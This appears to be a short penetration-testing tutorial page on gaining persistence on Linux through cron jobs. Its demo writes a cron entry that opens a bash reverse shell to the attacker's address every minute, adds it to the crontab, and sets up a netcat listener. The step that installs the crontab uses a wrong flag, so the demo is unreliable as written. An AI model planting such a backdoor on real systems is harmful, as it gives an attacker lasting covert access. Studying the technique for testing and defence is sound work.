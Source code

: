 # Persistence Via Cron Jobs

Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.

An application, or script that has been configured to be run repeatedly with Cron is known as Cron Job.

We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

## Anatomy of a Cron Job

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

\*\*\*\*\* means that the cron job will run every minute of every hour of every day of every month and every day of the week.

## Practice Demo

#### Enumerate the cron file

* <mark style="color:yellow;">cat /etc/cron\*</mark>

#### Setting up the cron job

* <mark style="color:yellow;">echo "\* \* \* \* \* /bin/bash  -c 'bash -i >& /dev/tcp/ourIP/localport 0>&1'" > cron</mark>

#### Now add the cron file to the crontab

* <mark style="color:yellow;">crontab -i cron</mark>

#### List current cron jobs

* <mark style="color:yellow;">crontab -l</mark>

#### Set up our listener

* <mark style="color:yellow;">nc -nvlp 1234</mark>
